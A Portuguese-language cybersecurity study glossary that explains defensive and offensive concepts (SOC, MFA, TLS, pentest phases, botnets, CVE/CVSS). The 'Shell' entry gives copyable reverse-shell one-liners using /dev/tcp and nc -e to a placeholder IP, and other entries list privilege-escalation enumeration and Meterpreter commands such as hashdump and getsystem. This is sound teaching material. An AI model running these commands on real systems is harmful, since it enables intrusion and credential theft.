SOC = Security Operations Center. É a "sala de guerra" da defesa: uma equipe que monitora a segurança 24 horas por dia, 7 dias por semana, usando o SIEM e outras ferramentas para detectar, analisar e responder a incidentes em tempo real. É a porta de entrada mais comum para quem quer trabalhar com Blue Team.
Os níveis de analista
- Tier 1 (Triagem): recebe os alertas, separa falso positivo de ameaça real.
- Tier 2 (Investigação): aprofunda os incidentes confirmados, contém a ameaça.
- Tier 3 (Threat Hunting): caça ativamente ameaças que escaparam dos alertas.
🍯 Honeypot 🆕
📖 Aprender a fundo
Explicação completa
Honeypot é uma armadilha: um sistema falso, propositalmente atraente/vulnerável, criado para atrair atacantes. Como ninguém legítimo deveria acessá-lo, qualquer interação já é sinal de ataque — quase sem falso positivo.
Para que serve
- Detectar invasores cedo e desviá-los do alvo real.
- Estudar técnicas e coletar IOCs (threat intel).
- Uma honeynet é uma rede inteira de honeypots.
🔑 2FA / MFA ✅
📖 Aprender a fundo
Explicação completa
MFA (autenticação multifator) exige mais de uma prova de que você é você. A ideia: mesmo que o atacante roube sua senha (phishing, vazamento, keylogger), ele ainda não tem o segundo fator e fica de fora. 2FA é o caso com exatamente dois fatores.
Os três tipos de fator
| Fator | O que é | Exemplos |
|---|---|---|
| 🧠 Algo que você SABE | Conhecimento | senha, PIN |
| 📱 Algo que você TEM | Posse | celular, app autenticador, chave física |
| 👤 Algo que você É | Biometria | digital, rosto, íris |
Combinar fatores de tipos diferentes é o que dá força (senha + digital). Duas senhas seriam o mesmo tipo — não conta como MFA real.
Qual 2FA é mais seguro?
- ❌ SMS: melhor que nada, mas vulnerável a SIM swap (clonagem de chip).
- ✅ App autenticador (Google/Microsoft Authenticator, Authy): código gerado no aparelho.
- ✅✅ Chave física (FIDO2/YubiKey): praticamente imune a phishing.
🪪 Autenticação 🆕
📖 Aprender a fundo
Explicação completa
Autenticação é provar que você é quem diz ser — o login. É a porta de entrada do IAM (gestão de identidade e acesso). Não confunda com autorização (o que você pode fazer depois de entrar).
Como se prova
- Algo que você sabe (senha), tem (celular/chave) ou é (biometria).
- Combinar fatores diferentes = MFA (muito mais forte).
🚦 Autorização 🆕
📖 Aprender a fundo
Explicação completa
Autorização define o que você pode fazer depois de autenticado: quais dados ver, quais ações executar. Falhas aqui são a raiz do IDOR e da escalada de privilégios.
Modelos comuns
- RBAC: permissões por papel (admin, editor, leitor).
- ABAC: por atributos (cargo, hora, local).
- Menor privilégio: cada um só tem o acesso que realmente precisa.
🎟️ Token 🆕
📖 Aprender a fundo
Explicação completa
Token é um objeto (físico ou digital) usado como prova de identidade ou de sessão. Em vez de reenviar a senha a cada requisição, o sistema entrega um token após o login e você o apresenta nas próximas.
Exemplos
- JWT e tokens OAuth (web/APIs).
- TOTP: os códigos de 6 dígitos do app autenticador.
- YubiKey/FIDO2: chave física (token de hardware).
HttpOnly, expiração curta e sempre HTTPS.🧬 Hash ✅
📖 Aprender a fundo
Explicação completa
Um hash é uma "impressão digital" de dados: uma função matemática que transforma qualquer entrada numa saída de tamanho fixo. Tem duas propriedades-chave: é unidirecional (não dá para voltar do hash ao original) e qualquer mudança mínima na entrada gera um hash completamente diferente.
Para que serve
- Guardar senhas: o site salva o hash, não a senha. No login, compara hashes. Se vazar o banco, o atacante não vê senhas diretas.
- Integridade: verificar se um arquivo foi alterado (mesmo hash = mesmo arquivo).
🔒 Criptografia 🆕
📖 Aprender a fundo
Explicação completa
Criptografia embaralha dados com um algoritmo + uma chave, de forma que só quem tem a chave certa consegue ler. É o que garante a confidencialidade da tríade CIA. Existem duas grandes famílias:

Simétrica × Assimétrica
- Simétrica (ex: AES): rápida, uma só chave. Problema: como combinar a chave em segurança?
- Assimétrica (ex: RSA, ECC): resolve a troca de chaves; a pública você divulga, a privada guarda. Base do HTTPS e das assinaturas digitais.
- Na prática usa-se as duas: a assimétrica troca uma chave simétrica de sessão (mais rápida).
🔐 SSL/TLS 🆕
📖 Aprender a fundo
Explicação completa
TLS (Transport Layer Security — o sucessor do antigo SSL) é o protocolo que criptografa o tráfego da web. É o "S" do HTTPS e o que faz aparecer o 🔒 no navegador. Ele garante três coisas: ninguém no meio lê seus dados (confidencialidade), ninguém os altera (integridade) e você está mesmo falando com o site certo (autenticidade, via certificado).
O "handshake" TLS (simplificado)
- Olá: seu navegador diz "quero conexão segura" e quais cifras suporta.
- Certificado: o servidor envia seu certificado digital (assinado por uma autoridade confiável — CA).
- Verificação: o navegador confere se o certificado é válido e do domínio certo.
- Troca de chave: usando criptografia assimétrica, combinam uma chave de sessão secreta.
- Canal seguro: daí em diante tudo é cifrado com essa chave (simétrica, rápida).
🩹 Patch 🆕
📖 Aprender a fundo
Explicação completa
Patch é a correção que o fabricante lança para uma falha. Patch management (manter tudo atualizado) é uma das defesas mais baratas e eficazes — e, ironicamente, das mais negligenciadas.
Por que importa tanto
- A maioria dos ataques usa vulnerabilidade com patch já disponível.
- O WannaCry explorou uma falha corrigida 2 meses antes — quem não atualizou, caiu.
- Entre o patch sair e você aplicar, existe uma janela de risco.
🌐 HTTP/HTTPS 🆕
📖 Aprender a fundo
Explicação completa
HTTP é o protocolo que faz navegador e servidor conversarem na web. O S de HTTPS = Seguro: adiciona o TLS, que criptografa o tráfego e autentica o site (o cadeado).
O básico que todo hacker precisa
- Métodos: GET (buscar), POST (enviar), PUT, DELETE.
- Status: 200 (ok), 301/302 (redirect), 403 (proibido), 404 (não achou), 500 (erro do servidor).
- Headers e cookies carregam sessão, tipo de conteúdo, segurança.
🔬 Forense Digital 🆕
📖 Aprender a fundo
Explicação completa
Forense digital é coletar e analisar evidências digitais após um incidente: descobrir o que aconteceu, como o atacante entrou, o que tocou — e preservar as provas (cadeia de custódia) para uso legal.
Onde se procura
- Disco (arquivos, apagados), memória RAM (processos, senhas em aberto).
- Logs e tráfego de rede; dispositivos móveis.
- Faz parte do DFIR (Forense + Resposta a Incidentes).
🚩 IOC 🆕
📖 Aprender a fundo
Explicação completa
IOC (Indicator of Compromise) são as pistas que indicam uma invasão: hash de um malware, IP/domínio malicioso, nome de arquivo estranho, chave de registro suspeita.
Como se usa
- Você procura esses indicadores nos logs/SIEM para detectar se foi comprometido.
- São compartilhados entre defensores via threat intelligence.
- Evolução: TTPs (táticas/técnicas) são mais robustos que IOCs isolados (que mudam fácil).
🧠 Threat Intelligence 🆕
📖 Aprender a fundo
Explicação completa
Threat intelligence é transformar dados brutos sobre ameaças (quem ataca, como, com quais ferramentas e IOCs) em decisões de defesa proativas — antecipar em vez de só reagir.
Níveis
- Estratégico: panorama de riscos para decisões de negócio.
- Tático: TTPs dos atacantes (como agem).
- Operacional: IOCs e alertas para o SOC agir.
💰 Bug Bounty 🆕
📖 Aprender a fundo
Explicação completa
Bug bounty é um programa em que empresas pagam por vulnerabilidades reportadas de forma responsável. É a maneira 100% legal de hackear sistemas reais — e ganhar com isso.
Como começar
- Plataformas: HackerOne, Bugcrowd, Intigriti.
- Recompensas vão de dezenas a dezenas de milhares (por bug crítico).
- Comece estudando OWASP Top 10 + PortSwigger Academy.
⚔️ Takedown 🆕
📖 Aprender a fundo
Explicação completa
Takedown é o processo de derrubar conteúdo malicioso — sites de phishing, clones de banco, perfis falsos — acionando quem tem poder para removê-lo: provedores de hospedagem, registradores de domínio e plataformas.
Como se faz
- Reportar ao host/registrador do site (abuse@...).
- Denunciar ao Google Safe Browsing e antiphishing dos navegadores.
- Empresas contratam serviços de takedown para proteger a marca.
🚫 Zero Trust 🆕
📖 Aprender a fundo
Explicação completa
Zero Trust ("nunca confie, sempre verifique") é o modelo moderno que elimina a confiança implícita: cada acesso é verificado, mesmo vindo de dentro da rede. Substitui o velho modelo de "castelo e fosso" (rede interna = segura).
Princípios
- Verificar sempre (identidade + dispositivo + contexto).
- Menor privilégio em cada acesso.
- Assumir violação: projetar como se o atacante já estivesse dentro.
Nível 6 — Técnicas Avançadas
🎯 Pentest 🆕
📖 Aprender a fundo
Explicação completa
Pentest (teste de invasão) é um ataque simulado e autorizado contra um sistema para descobrir como um criminoso real poderia invadi-lo — e, principalmente, documentar como corrigir. Diferente de um ataque real, tem escopo, contrato e relatório. É a profissão ofensiva por excelência.
As 5 fases de um pentest
- Reconhecimento: coletar informação sobre o alvo (OSINT, footprinting).
- Varredura (Scanning): mapear hosts, portas e serviços (Nmap) e identificar vulnerabilidades.
- Exploração: usar as falhas para ganhar acesso (Metasploit, exploits).
- Pós-exploração: escalar privilégios, mover-se lateralmente, ver até onde dá para chegar.
- Relatório: documentar tudo, com evidências e plano de correção. A entrega que paga.
📑 Pentest Report 🆕
📖 Aprender a fundo
Explicação completa
O relatório de pentest é a entrega final — e o que o cliente realmente paga. Documenta as falhas, o risco de cada uma, como foram exploradas (com evidências) e, principalmente, como corrigir.
Estrutura típica
- Sumário executivo: para a gestão, em linguagem de negócio/risco.
- Parte técnica: cada achado com descrição, impacto, prova (PoC), severidade (CVSS) e recomendação.
🔴 Red Team 🆕
📖 Aprender a fundo
Explicação completa
O Red Team simula um ataque real e completo contra a empresa, geralmente sem avisar o time de defesa (Blue Team), para testar não só a tecnologia, mas a capacidade de detectar e responder. Tem um objetivo (ex.: "chegar ao servidor X") e usa qualquer vetor: técnico, físico ou social.
Os times
- 🔴 Red: ataca (furtivo, com evasão).
- 🔵 Blue: defende, detecta e responde.
- 🟣 Purple: os dois colaborando para melhorar a defesa.
↔️ Lateral Movement 🆕
📖 Aprender a fundo
Explicação completa
Movimento lateral é como o atacante se desloca de uma máquina para outra dentro da rede após o acesso inicial, caçando alvos mais valiosos (servidores, o controlador de domínio).
Técnicas comuns
- Pass-the-hash e reutilização de credenciais.
- RDP, SSH e SMB internos.
- Abuso de contas de serviço e do Active Directory.
⬆️ Escalada de Privilégios 🆕
📖 Aprender a fundo
Explicação completa
Quando um atacante invade, ele quase sempre entra como um usuário comum, com poderes limitados. Escalada de privilégios (privilege escalation) é o processo de transformar esse acesso fraco em controle total — virar root (Linux) ou Administrator/SYSTEM (Windows). É o que separa "entrei" de "dominei a máquina".
Dois tipos
| Vertical | Horizontal |
|---|---|
| Usuário comum → admin/root (mais poder) | Usuário A → usuário B (mesmo nível, outra conta) |
Caminhos comuns (o que se procura)
- Kernel/software desatualizado com exploit conhecido.
- Configurações erradas: binários SUID, permissões frouxas,
sudomal configurado. - Credenciais esquecidas em arquivos, scripts e variáveis de ambiente.
- Tarefas agendadas (cron) executando algo que você pode editar.
Comandos para copiar (enumeração — lab autorizado)
sudo -l
find / -perm -4000 2>/dev/null
uname -a
./linpeas.sh
linPEAS/winPEAS automatizam a busca por esses caminhos (úteis para o pentester e para o defensor auditar).🔄 Reverse Engineering 🆕
📖 Aprender a fundo
Explicação completa
Engenharia reversa é analisar um programa sem o código-fonte (só o binário) para entender como ele funciona por dentro — desmontando-o em assembly e reconstruindo a lógica.
Para que serve
- Análise de malware: descobrir o que um vírus faz.
- Achar vulnerabilidades (0-days) em software fechado.
- Estudar protocolos e formatos proprietários.
🐚 Shell 🆕
📖 Aprender a fundo
Explicação completa
Shell é a interface de linha de comando que controla um sistema. "Conseguir um shell" no alvo = poder executar comandos nele. O grande objetivo de muitas invasões é exatamente esse: um shell remoto.
Bind shell × Reverse shell (por que o reverse vence)
- Bind shell: a vítima abre uma porta e espera. Firewalls costumam bloquear conexões de entrada → falha fácil.
- Reverse shell: a vítima conecta de volta ao atacante. Como tráfego de saída quase sempre é permitido, fura o firewall. Por isso é o preferido.
Comandos para copiar (lab autorizado)
nc -lvnp 4444
bash -i >& /dev/tcp/<SEU_IP>/4444 0>&1
nc <SEU_IP> 4444 -e /bin/bash
🤖 Botnet 🆕
📖 Aprender a fundo
Explicação completa
Botnet = "rede de robôs". É um exército de máquinas infectadas (os zumbis / bots) — computadores, celulares, câmeras, roteadores — controladas remotamente pelo atacante (o botmaster) através de um servidor de comando e controle (C2). Os donos dos aparelhos geralmente não fazem ideia de que participam.
Para que serve uma botnet
- DDoS em massa (o uso mais famoso).
- Envio de spam e phishing em escala.
- Cryptojacking (minerar cripto com a CPU das vítimas).
- Brute force / credential stuffing distribuído.
Botnets são, inclusive, alugadas no submundo — "DDoS como serviço" por poucos dólares.
🧟 Zombie 🆕
📖 Aprender a fundo
Explicação completa
Um zumbi (zombie) é uma máquina infectada que faz parte de uma botnet e obedece ao atacante sem o dono saber. Seu PC, celular ou até a câmera/roteador podem ser um zumbi agora mesmo.
Para que são usados
- DDoS em massa, envio de spam, mineração de cripto.
- Servir de proxy para esconder a origem de crimes.
🌀 Fuzzing 🆕
📖 Aprender a fundo
Explicação completa
Fuzzing é bombardear um programa com dados aleatórios, malformados ou inesperados para ver se ele quebra. Cada crash é um bug em potencial — às vezes um 0-day explorável.
Como funciona
- O fuzzer gera milhões de entradas automaticamente e monitora travamentos.
- Ferramentas: AFL, libFuzzer, Boofuzz.
🚪 Port Scanning 🆕
📖 Aprender a fundo
Explicação completa
Port scanning é descobrir quais portas estão abertas em um host e quais serviços rodam nelas — o primeiro passo prático de quase todo ataque ou auditoria.
Técnicas
- TCP connect: completa a conexão (mais "barulhento").
- SYN scan (stealth): não completa a conexão — mais discreto.
- UDP scan: para serviços que não usam TCP (DNS, SNMP).
👃 Sniffing 🆕
📖 Aprender a fundo
Explicação completa
Sniffing é capturar os pacotes que trafegam na rede. Em rede aberta e sem HTTPS, dá para ver senhas e dados em texto claro. A ferramenta clássica é o Wireshark.
Passivo × Ativo
- Passivo: só "escuta" o tráfego que passa.
- Ativo: usa truques (ex.: ARP spoofing) para desviar o tráfego dos outros até você.
🌫️ Ofuscação 🆕
📖 Aprender a fundo
Explicação completa
Ofuscação é embaralhar/esconder o código (de malware ou de software) para dificultar a análise e escapar do antivírus. O programa faz a mesma coisa, mas fica ilegível para quem analisa.
Técnicas
- Packers (empacotadores) e criptografia do payload.
- Nomes sem sentido, código morto, fluxo confuso.
- Do lado bom: também se usa para proteger propriedade intelectual.
🕵️ Ciberespionagem 🆕
📖 Aprender a fundo
Explicação completa
Ciberespionagem é roubar segredos (industriais, militares, políticos) por meios cibernéticos, de forma furtiva e prolongada. É o objetivo típico das APTs patrocinadas por estados.
Características
- Alvos: governos, defesa, grandes empresas, infraestrutura crítica.
- O objetivo é coletar por meses sem ser notado — silêncio é a arma.
📜 CVE 🆕
📖 Aprender a fundo
Explicação completa
CVE = Common Vulnerabilities and Exposures. É um catálogo público e padronizado de vulnerabilidades conhecidas. Cada falha ganha um ID único para que o mundo todo se refira a ela da mesma forma — sem confusão de nomes.
Anatomia de um ID
CVE-2021-44228 │ │ └─ número sequencial │ └──────── ano da divulgação └────────────── prefixo fixo # Esse é o famoso "Log4Shell" (Log4j) — # uma das vulnerabilidades mais graves já registradas.
Você pesquisa um CVE em bases como NVD (nvd.nist.gov) e cve.mitre.org para saber o que é afetado, a gravidade e se já há patch.
📈 CVSS 🆕
📖 Aprender a fundo
Explicação completa
Se o CVE identifica a vulnerabilidade, o CVSS (Common Vulnerability Scoring System) diz o quão grave ela é, numa nota de 0 a 10. Isso permite priorizar: com centenas de falhas, você ataca primeiro as mais críticas.
Faixas de severidade
| Nota | Severidade | Ação |
|---|---|---|
| 0.1 – 3.9 | 🟢 Baixa | Pode esperar |
| 4.0 – 6.9 | 🟡 Média | Planejar correção |
| 7.0 – 8.9 | 🟠 Alta | Corrigir logo |
| 9.0 – 10.0 | 🔴 Crítica | Corrigir AGORA |
A nota é calculada por fatores como: o ataque é remoto ou local? É complexo? Precisa de privilégios? Qual o impacto na tríade CIA? (O Log4Shell, por exemplo, recebeu nota 10.0 — o máximo.)
🏆 OWASP 🆕
📖 Aprender a fundo
Explicação completa
A OWASP (Open Worldwide Application Security Project) é uma fundação sem fins lucrativos que produz materiais gratuitos sobre segurança de aplicações. O mais famoso é o Top 10: a lista dos 10 riscos web mais críticos, atualizada periodicamente.
Recursos úteis
- Top 10 (web e também API, Mobile, LLM).
- Web Security Testing Guide e Cheat Sheets.
- ZAP: scanner web open source da própria OWASP.
💻 Endpoint 🆕
📖 Aprender a fundo
Explicação completa
Endpoint é qualquer dispositivo final na rede: PC, notebook, celular, tablet, servidor. É o alvo nº 1 dos ataques modernos, porque é onde o usuário — e o erro humano — está.
Por quê
- A maioria das invasões entra por um endpoint (clique em phishing, USB, app vulnerável).
- Proteção: antivírus/EDR, atualização em dia, menor privilégio e disco criptografado.
📱 BYOD 🆕
📖 Aprender a fundo
Explicação completa
BYOD (Bring Your Own Device) é a prática de usar o dispositivo pessoal no trabalho. É cômodo e barato, mas um pesadelo de segurança: a empresa não controla o aparelho, que pode estar infectado, sem patch ou compartilhado.
Riscos e defesa
- Riscos: dados corporativos em aparelho pessoal, perda/roubo, apps duvidosos.
- Defesa: MDM (gestão de dispositivos), containers que separam trabalho/pessoal, e políticas claras.
🎯 Vetor de Ataque 🆕
📖 Aprender a fundo
Explicação completa
Vetor de ataque é o caminho pelo qual o atacante chega ao sistema: e-mail de phishing, porta aberta, pendrive, app vulnerável, credencial vazada ou um funcionário enganado. A soma de todos os vetores é a superfície de ataque.
Vetores mais comuns
- Phishing (o nº 1), credenciais vazadas, software desatualizado.
- Serviços expostos, USB, e a cadeia de suprimentos (fornecedores).
💾 Dump 🆕
📖 Aprender a fundo
Explicação completa
Dump é a exportação em massa de dados após um comprometimento — o banco de dados inteiro, credenciais, e-mails. Esses dumps vazam no Telegram, em fóruns e na dark web.
O ciclo do vazamento
- Atacante invade → faz o dump do banco (ex.: hashes de senha).
- Os hashes são quebrados offline (John/Hashcat).
- As credenciais alimentam o próximo ataque (credential stuffing).
🧪 Heurística 🆕
📖 Aprender a fundo
Explicação completa
Análise heurística detecta malware pelo comportamento, não por assinatura. Em vez de perguntar "este arquivo está na lista de vírus conhecidos?", ela pergunta "este programa está agindo como um vírus?".
Exemplo
- Um programa que tenta criptografar muitos arquivos rapidamente → comportamento de ransomware → bloqueado, mesmo sendo novo.
🎛️ Meterpreter 🆕
📖 Aprender a fundo
O que faz
Depois que um exploit abre acesso, o Meterpreter roda na memória (sem gravar no disco, difícil de detectar) e entrega um shell avançado: navegar arquivos, capturar tela, registrar teclas, escalar privilégios e pivotar para outras máquinas da rede.
Comandos comuns (após a sessão abrir)
sysinfo
getuid
screenshot
hashdump
getsystem
Gerador de Dorks & Comandos
https:// e caminho — eu limpo automaticamente. As buscas/comandos se atualizam enquanto você digita. Dossiê do alvo
Use durante o reconhecimento (com autorização) para organizar o que você for descobrindo. Tudo fica salvo automaticamente só neste navegador (não vai para servidor nenhum). Use "Copiar tudo" para levar ao seu relatório.
Bases úteis
Bases que todo estudante/profissional de segurança consulta. Todas legítimas e gratuitas. Para checar exposição, use só a SUA (HIBP) — consultar dados de terceiros é ilegal (LGPD).
🐛 Vulnerabilidades & exploits
🧠 Threat Intelligence / IOCs
🔭 Recon / superfície exposta
⚔️ Técnicas & táticas
📚 Wordlists (para brute force / fuzzing)
/usr/share/wordlists/.🔐 Exposição pessoal (defensivo)
Matriz ATT&CK
O MITRE ATT&CK é o framework que organiza táticas e técnicas que adversários reais usam em ataques. Para cada técnica eu marco a perspectiva que estudo: ofensiva (como executar), defensiva (como detectar e bloquear), ou ambas (purple team). Clique numa técnica para ver o resumo.